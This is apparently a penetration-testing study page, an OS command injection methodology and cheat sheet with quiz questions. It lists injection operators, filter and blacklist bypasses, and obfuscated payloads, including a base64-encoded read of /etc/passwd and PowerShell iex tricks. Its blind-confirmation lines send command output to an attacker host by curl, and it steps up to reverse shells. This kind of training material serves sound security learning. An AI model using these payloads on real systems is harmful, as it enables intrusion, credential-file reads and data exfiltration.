





# OS Command Injection

import { Callout } from 'nextra/components'

the final flowchart is at the bottom of the page.

## Cheatsheet

```bash
# surf the site and start crawler in burpsiuite
# look for params like ?cmd=,?ping=,?query=,?arg=,etc.
# example params : https://github.com/lutfumertceylan/top25-parameter/blob/master/rce-paramaters-get-based.txt

# automated 

python3 commix.py -u http://<TARGET> --data "cmd=whoami" 
# usage example : https://github.com/commixproject/commix/wiki/Usage-examples

#manualy

# Injection operators append to the intended input, then your command
127.0.0.1; whoami            # ; runs both (not valid in Windows CMD)
127.0.0.1 && whoami          # && runs second only if first succeeds
127.0.0.1 | whoami           # | pipes; only second output shown
|| whoami                    # || runs second only if first FAILS (break the first cmd)
127.0.0.1%0awhoami           # newline (URL-encoded) — survives many blacklists
$(whoami)  `whoami`          # sub-shell, Linux only
```

| URL-encoded        | Operator | Description         |
|--------------------|----------|---------------------|
| `%3b`              | `;`      | Semicolon           |
| `%0a`              | `\n`     | Newline             |
| `%26`              | `&`      | Ampersand           |
| `%7c`              | `|`      | Pipe                |
| `%26%26`           | `&&`     | Logical AND         |
| `%7c%7c`           | `||`     | Logical OR          |
| `%60%60`           | <code>``</code> | Backticks      |
| `%24%28%29`        | `$()`    | Subshell            |
| `%09`              | `tab`    | Tab                 |
| `%20`              | `space`  | Space               |

```bash
# Space bypasses (when space is blacklisted, Linux)
127.0.0.1%0a{ls,-la}                 # brace expansion
127.0.0.1%0a${IFS}whoami             # $IFS defaults to space/tab
127.0.0.1%0a%09whoami                # literal tab (%09) between args

# Character bypasses build blacklisted chars from env vars
${PATH:0:1}          # -> /   (slash)
${LS_COLORS:10:1}    # -> ;   (semicolon)
${IFS}               # -> space
```

```bash
# Command-name obfuscation (defeat word blacklists)
w'h'o'am'i           # quotes (event counts of quotes)Linux + Windows
who$@ami   w\ho\am\i # $@ / backslash insertion Linux only
$(tr "[A-Z]" "[a-z]"<<<"WhOaMi")     # case flip
$(rev<<<'imaohw')                    # reversed command
bash<<<$(base64 -d<<<Y2F0IC9ldGMvcGFzc3dk)   # base64-encoded payload, no pipe
```

```powershell
# Windows equivalents
127.0.0.1 & whoami                   # & works in CMD; ; only works in PowerShell
who^ami                              # caret insertion (CMD)
$env:HOMEPATH[0]                     # -> \  (build chars from env vars, PS)
iex "$('imaohw'[-1..-20] -join '')"  # reversed command, PowerShell
iex "$([System.Text.Encoding]::Unicode.GetString([System.Convert]::FromBase64String('dwBoAG8AYQBtAGkA')))"
```

```bash
# Confirm blind injection (no output) time delay and out-of-band callback
127.0.0.1%0asleep%095            # response hangs ~5s => code runs
127.0.0.1%0aping%09-c%094%09<LHOST>              # ICMP callback (Linux)
127.0.0.1%0acurl%09http://<LHOST>/$(whoami)      # DNS/HTTP exfil of output
```
## Methodology

### Phase 1: Map the Surface and Auth State

<Callout type="default" emoji="?">
  **Questions to ask**

  - Which inputs plausibly feed a shell ?anything that pings, resolves, traces, converts a file, generates a PDF/thumbnail, backs up, or "runs" something?
  - What **auth state** reaches this input: unauthenticated, my low-priv session, or admin-only? Which would be the highest-value transition to RCE?
  - Is the intended command's output reflected back (direct injection) or invisible (blind)?
  - Is validation enforced only on the front-end, so a raw HTTP request bypasses it?
</Callout>


- [ ] Enumerate every input that could reach an OS command (forms, params, path segments, headers, filenames, JSON fields).
- [ ]  start burpsuite and crawler to find the params that may reach a shell.
- [ ] Record the raw request (method, path, params, cookies) so it can be replayed in Repeater or `curl`.
- [ ] Tag each input's auth state (unauth / user / admin) and pick the highest-value target.
- [ ] look for params like ?cmd=,?ping=,?query=,?arg=,etc. [RCE parameters](https://github.com/lutfumertceylan/top25-parameter/blob/master/rce-paramaters-get-based.txt)
- [ ] Decide whether output is reflected (direct) or not (blind).
- [ ] If a browser rejects the payload with no network request, the check is front-end only send the request directly to the back-end.

### Phase 2: Identify the Sink & phase 3 

<Callout type="default" emoji="?">
  **Questions to ask**

  - How is my input placed into the command bare argument (`ping -c 1 INPUT`), inside double quotes, inside single quotes, or interpolated into a template string?
  - What **breakout** does that context need before a new command starts (nothing, `"`, `'`, or backticks/`$()`)?
  - Which OS and shell is behind this (Linux `bash`, Windows `cmd`, Windows PowerShell)? This decides which operators and bypasses work.
  - Does the platform hint (server header, error style, path separators) tell me `;` vs `&` and `$()` availability?
</Callout>

```bash
# Probe the quoting context which breakout is required
127.0.0.1; id            # bare / double-quoted context
127.0.0.1' ; id ; '      # single-quoted context needs a matching quote first
127.0.0.1" ; id ; "      # double-quoted context
127.0.0.1$(id)           # interpolation-friendly context (sub-shell)
```

- [ ] Determine the quoting context around your input; pick the matching breakout (see *Injection Context Matrix*).
- [ ] Fingerprint the OS/shell to choose operators (`;`/`&&` vs `&`; `$()` is Linux-only).
- [ ] Pick a single benign, high-signal marker command (`id`/`whoami`) ot a destructive one.



<Callout type="default" emoji="?">
  **Questions to ask**

  - Where does a request input (**source**) flow into a command-executing **sink** (`system`, `exec`, `popen`, `child_process.exec`, `subprocess(..., shell=True)`, `Runtime.exec`)?
  - Is the input concatenated/interpolated into the command string, or passed as a separate argument array (the latter is much safer)?
  - What sanitization sits in the path a blacklist, `escapeshellarg`/`escapeshellcmd`, an allow-list regex and can my context bypass it?
  - Is the vulnerable route reachable pre-auth, or only behind a session/role check?
</Callout>

```bash
# Find the dangerous sinks, then trace each back to a request-reachable source
rg -n "system\(|exec\(|shell_exec\(|passthru\(|popen\(|proc_open\(" <SRC>          # PHP
rg -n "child_process|\.exec\(|\.execSync\(|\.spawn\(" <SRC>                          # Node
rg -n "os\.system|subprocess\.(run|call|Popen).*shell=True|os\.popen" <SRC>         # Python
rg -n "Runtime\.getRuntime\(\)\.exec|ProcessBuilder" <SRC>                           # Java
rg -n "\$_(GET|POST|REQUEST|COOKIE)|req\.(query|body|params)|request\.(args|form)" <SRC>
```

- [ ] Inventory sinks and request-reachable sources separately, then connect one full path.
- [ ] Note every transform in between (blacklist, escape function, regex) and whether your context defeats it.
- [ ] Flag string concatenation into the command as the smoking gun; argument arrays without a shell are usually safe.
- [ ] Record whether the sink is reachable unauthenticated that sets the headline chain.

### Phase 4: Confirm Injection & phase 5

<Callout type="default" emoji="?">
  **Questions to ask**

  - Did the response actually change to include my command's output, or did only the intended command run?
  - If the input is rejected, is it the **operator**, a **space**, or a **word** being filtered (isolate one character at a time)?
  - Is this the back-end filtering (in-page error) or a WAF (separate block page echoing my IP/request)?
  - Once one operator works, is it stable enough to build a real payload on?
</Callout>

- [ ] Inject `; id` (or `%0aid`) and confirm the response contains `uid=...` execution, not just reflection.
- [ ] If blocked, reduce to one character at a time to identify the filtered element (operator vs space vs word).
- [ ] Distinguish an in-app "Invalid input" (back-end blacklist) from a WAF block page (separate page with your request details).
- [ ] Lock in one working operator before weaponizing.




<Callout type="default" emoji="?">
  **Questions to ask**

  - With no output channel, can I prove execution by **timing** (`sleep`) or an **out-of-band** callback (DNS/HTTP/ICMP to my host)?
  - Which egress does the target allow raw ICMP, outbound DNS, outbound HTTP? That decides the exfil channel.
  - Can I exfiltrate command output by embedding it in the callback (`curl http://<LHOST>/$(id|base64)`)?
  - Did a request actually reach my listener the only execution proof available here?
</Callout>

- [ ] Send a `sleep N` payload and measure response time; a consistent ~N-second delay proves blind execution.
- [ ] Start a listener and trigger a DNS/HTTP/ICMP callback to confirm code runs and egress works.
- [ ] Exfiltrate output by embedding `$(cmd)` (base64-encode to keep it URL-safe) into the callback URL/hostname.
- [ ] On a callback, record the working payload and channel; move to weaponization.

### Phase 6: Bypass Filters and Weaponize

<Callout type="default" emoji="?">
  **Questions to ask**

  - Which layer is filtering ?a character blacklist, a command/word blacklist, or a WAF and what exactly is blocked?
  - Can I rebuild blocked **characters** (space, `/`, `;`) from env vars / brace expansion and blocked **commands** from quotes/case/reversal/encoding?
  - What is the cheapest payload that proves impact (`id`) before I escalate to a reverse shell?
  - After a shell, does the auth state / user (`www-data`, `IIS APPPOOL\...`) justify the next host-side step?
</Callout>



- [ ] Identify the filter layer and enumerate exactly what is blocked (from Phase 4).
- [ ] Rebuild blocked characters (`${IFS}`, `{a,b}`, `${PATH:0:1}`) and obfuscate blocked words (quotes, case, `rev`, base64).
- [ ] Prove impact with `id`/`whoami`, then upgrade to a reverse shell; stabilize per [Reverse Shells & Upgrades](/RAW/shell).
- [ ] Capture evidence (request, payload, output) and carry the shell into host post-exploitation.

## Reference

### Injection Operators

| Operator | Char | URL-encoded | Runs | Notes |
|----------|------|-------------|------|-------|
| Semicolon | `;` | `%3b` | Both | Not valid in Windows CMD (works in PowerShell) |
| Newline | `\n` | `%0a` | Both | Works Linux + Windows; rarely blacklisted (apps need it) |
| Background | `&` | `%26` | Both | Second output often shown first |
| Pipe | `\|` | `%7c` | Both | Only the second command's output is shown |
| AND | `&&` | `%26%26` | Both | Second runs only if first succeeds |
| OR | `\|\|` | `%7c%7c` | Second | Runs only if the first **fails** break the first cmd (`\|\| whoami`) |
| Sub-shell | <code>``</code> | `%60%60` | Both | Linux only | {/* some error here not visible: use HTML code block for backticks, markdown otherwise breaks table rendering */}
| Sub-shell | `$()` | `%24%28%29` | Both | Linux only |

### Injection Context Matrix

The quoting context around your input decides the breakout set this wrong and a working target looks patched.

| Context in the command | Example | Breakout needed | Payload |
|------------------------|---------|-----------------|---------|
| Bare argument | `ping -c 1 INPUT` | none | `127.0.0.1; id` |
| Double-quoted | `sh -c "ping INPUT"` | close the quote | `127.0.0.1"; id; "` |
| Single-quoted | `sh -c 'ping INPUT'` | close the quote | `127.0.0.1'; id; '` |
| Interpolated string | `` `touch /tmp/INPUT.txt` `` | sub-shell | `$(id)` or `` `id` `` |
| Windows CMD | `ping INPUT` | `&` (not `;`) | `127.0.0.1 & whoami` |

### Space Bypasses (Linux)

| Technique | Payload | Note |
|-----------|---------|------|
| Tab | `127.0.0.1%0a%09whoami` | Shells treat tab as arg separator |
| `$IFS` | `127.0.0.1%0a${IFS}whoami` | Default `$IFS` is space+tab |
| Brace expansion | `127.0.0.1%0a{ls,-la}` | Braces auto-insert spaces |
| `${IFS}` in-word | `cat${IFS}/etc/passwd` | Common one-liner form |

### Character Bypasses (build blocked chars from env vars)

```bash
# Linux substring env vars to produce a single needed character
${PATH:0:1}          # /
${LS_COLORS:10:1}    # ;   (printenv to hunt other useful chars)
$(tr '!-}' '"-~'<<<[)   # character shifting: prints \ (shift [ by 1)
```

```powershell
# Windows CMD substring an env var to a single char
echo %HOMEPATH:~6,-11%     # \
# Windows PowerShell index into an env var (word = char array)
$env:HOMEPATH[0]           # \
```

### Command-Name Obfuscation (defeat word blacklists)

| Technique | Linux | Windows | Rule |
|-----------|-------|---------|------|
| Quote insertion | `w'h'o'am'i` / `w"h"o"am"i` | `w"h"o"am"i` | Even count, don't mix quote types |
| Char insertion | `who$@ami` / `w\ho\am\i` | `who^ami` (caret, CMD) | Linux `\`/`$@` count can be odd |
| Case flip | `$(tr "[A-Z]" "[a-z]"<<<"WhOaMi")` | `WhOaMi` (case-insensitive) | Linux is case-sensitive; needs a converter |
| Reversal | `$(rev<<<'imaohw')` | `iex "$('imaohw'[-1..-20] -join '')"` | Reverse filtered chars too |
| Encoding | `bash<<<$(base64 -d<<<...)` | `iex "$([Convert]...)"` | `<<<` avoids the `\|` pipe |

<Callout type="info">
  For advanced/automated obfuscation use [Bashfuscator](https://github.com/Bashfuscator/Bashfuscator) (Linux) and [Invoke-DOSfuscation](https://github.com/danielbohannon/Invoke-DOSfuscation) (Windows). Bashfuscator output can range from hundreds to over a million characters constrain it with `-s 1 -t 1 --no-mangling --layers 1` so the payload fits the input field, and validate with `bash -c '<payload>'` before sending. More variants: [PayloadsAllTheThings Command Injection](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Command%20Injection).
</Callout>
`

<Quiz
  question="Your `;` and `&&` payloads all return 'Invalid input', but `127.0.0.1%0a` returns a normal ping. What is the best next step?"
  options={[
    "Give up the app is not injectable",
    "Use the newline as the injection operator and keep isolating filtered characters (space, then the command word)",
    "Immediately fire a 1-million-character Bashfuscator payload",
    "Switch to SQL injection operators"
  ]}
  answer={1}
  explanation="A newline (%0a) passing while ;/&& are blocked means the operator blacklist has a gap and %0a is your working separator. The methodical move is to keep reducing one character at a time next confirm whether space and the command word are filtered — then layer the matching bypasses. Firing a massive obfuscated payload blindly ignores the field length limit and the specific filters you haven't mapped yet."
/>

<Quiz
  question="A search feature calls system() with your input but the page never shows command output. How do you confirm injection?"
  options={[
    "Conclude it isn't vulnerable since there's no output",
    "Inject `; sleep 5` and measure response time, and/or `; curl http://<LHOST>/$(id)` against your listener",
    "Only try `; whoami` repeatedly",
    "Report it as vulnerable without any proof"
  ]}
  answer={1}
  explanation="No reflected output means blind command injection you need a side channel. A consistent ~5s delay from `sleep 5` proves timed execution, and an out-of-band DNS/HTTP/ICMP callback proves it while also exfiltrating output. Repeating `whoami` gives nothing without an output channel, and claiming vulnerability without proof fails the evidence standard."
/>

{/* <div className="flex flex-wrap gap-2 mb-4">
  <TagPill color="#ef4444">#Penetration Testing</TagPill>
  <TagPill color="#f97316">#Red Team</TagPill>
  <TagPill color="#14b8a6">#HTB</TagPill>
</div> */}

## Complete flowchart


<div className="pensieve-hashtags">
  #OS-Command-Injection #Penetration-Testing #Red-Team #HTB #Linux #Windows #PowerShell #PHP #WebAttacks #RCE #PathTraversal #LogPoisoning #Wrappers #OWASP #Certification
</div>
